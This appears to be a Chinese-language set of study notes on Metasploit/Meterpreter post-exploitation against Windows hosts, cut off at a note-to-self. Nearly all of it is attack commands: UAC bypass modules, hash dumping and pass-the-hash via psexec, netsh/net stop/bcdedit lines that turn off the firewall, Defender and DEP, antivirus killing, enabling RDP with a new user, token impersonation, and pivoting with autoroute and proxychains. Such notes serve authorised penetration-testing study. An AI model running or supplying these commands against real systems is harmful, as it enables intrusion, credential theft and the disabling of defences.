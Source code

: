 # 概要

1. 权限提升：权限提升的集中方式
2. 信息收集：服务器信息、Hash、防火墙杀毒软件、账号密码
3. 内网渗透：端口转发、代理跳板
4. 后门植入：永久后门维持权限

# 权限提升

1. 提高程序运行级别
- Exploit/windows/local/ask

上面模块执行攻击以后，在靶机会弹出一个UAC对话框，当且仅当靶机管理员点击是（授权执行）以后才能收到提权的反弹shell，也就是说需要和管理员交互。

2. UAC绕过
- Exploit/windows/local/bypassuac
- Exploit/windows/local/bypassuac_injection
- Exploit/windows/local/bypassuac_vbs

上面模块不需要与靶机管理员交互，直接绕过UAC（执行成功以后需要再执行getsystem命令）

3. 利用本地提权漏洞进行提权

根据具体的系统环境，查找对应的本地系统提升漏洞

# 信息收集

信息收集相关
- 获取目标机器的分区情况：post/windows/gather/forensics/enum_drives
- 判断是否为虚拟机：post/windows/gather/checkvm
- 开启哪些服务：post/windows/gather/enum_services
- 安装了哪些应用：post/windows/gather/enum_applocations
- 查看共享：post/windows/gather/enum_shares
- 获取主机最近的系统操作：post/windows/gather/dumplinks
- 查看补丁：post/windows/gather.enum_applications
- scraper脚本
- winenum脚本

 
# 数据包捕获

抓包与解包
> 抓包

- 加载sniffer:load sniffer
- 查看网卡信息：sniffer_interface
- 开启监听：sniffer_start 1
- 导出数据包:sniffer_dump 1 1.cap

> 解包

- auxiliary/sniffer/psnuffle

# PassingTheHash
Hash 基础知识
windows系统下的hash密码格式为：

> 用户名称：RID：LM-HASH值：NT-HASH值


获取Hash值

- Hashdump
- Run post/windows/gather/smart_hashdump
- 检查权限和系统类型
- 检查是否是域控制器
- 从注册表读取hash、注入LSASS进程
- 如果是08server并具有管理员权限，直接getsystem尝试提权
- 如果是win7且UAC关闭并具有管理员权限，从注册表读取
- 03/xp直接getsystem,从注册表获取hash

Hash传递(直接用hash密文登录，前提是关闭了UAC)
- Pasexec: exploit/windows/smb/psexec


# 关闭防火墙及杀毒软件
> 关闭防火墙
- Netsh advfirewall set allprofiles state off (管理员及以上权限)

> 关闭Denfender
- Net stop windefend

> 关闭DEP
- Bcdedit.exe /set{current} nx AlwaysOff

> 关闭杀毒软件
- Run killav
- Run post/windwos/manage/killava

# 远程桌面

>开启远程桌面
- run post/windows/manage/enable_rdp
- run getgui -e

> 开启远程桌面并添加一个新用户bean:
- run getgui -u bean -p ean

>开启远程桌面并绑定在8888端口：
- run getgui -e -f 8888

>截图
- load espia
- screengrab

# 令牌假冒

什么是令牌假冒？
> 假冒令牌可以假冒一个网络中的另一个用户进行各类操作。 所谓的令牌：例如当一个用户登录系统，则它会被赋予一个访问令牌作为认证信息。 所以当一个攻击者需要域管理员的操作权限时候，需要通过假冒令牌方式进行入侵攻击。

> windows安全相关概念
- session
- windows station
- Desktop
- Login Session:不同账号登录产生不同的登录Session,代表不同的账号权限


>Tokens简介
- 与进程相关联，进程创建时根据LoginSession分配对应Token，含有该进程用户账号、组信息、权限信息等
- 用户每次登录，产生LoginSession分配对应Token
- 访问资源时提交Token进行身份验证，类似于web cookie
- Delegate Token：交互登录会话
- Impersonate Token：非交互登录会话



> Incognito
- 独立软件，被继承到msf的meterpreter中
- 不用获取账号密码窃取token将自己伪装成合法用户
- 适用于域环境下提权渗透多操作系统


# 跳板攻击
> Pivoting
- 利用已经被入侵的主机作为跳板来攻击网络中的其他系统
- 访问由于路由问题而不能直接访问的内网系统

> 自动路由
- run autoroute -s 192.168.102.0/24
- run post/multi/manage/autoroute
- 利用win7攻击内网服务器
- 扫描内网网络
1. run post/windows/gather/arp_scanner rhosts=192.168.102.0/24   (扫描该网段活跃主机)
2. use auxiliary/scanner/portscan/tcp   （扫描目标内网主机开放的端口）


# 代理设置
> socket代理
- auxiliary/server/socks4a

> ProxyChains
- ProxyChains是为GNU/linux操作系统开发的工具。任何tcp连接都可以通过tor或者soxket4,socket5,http/https路由到目的地、在这个通道技术中可以使用多个代理服务器。除此之外提供匿名方式，诸如用于中转跳板的应用程序也可以用于对发现的新网络进行直接通信。
- proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse <IP>


看到第12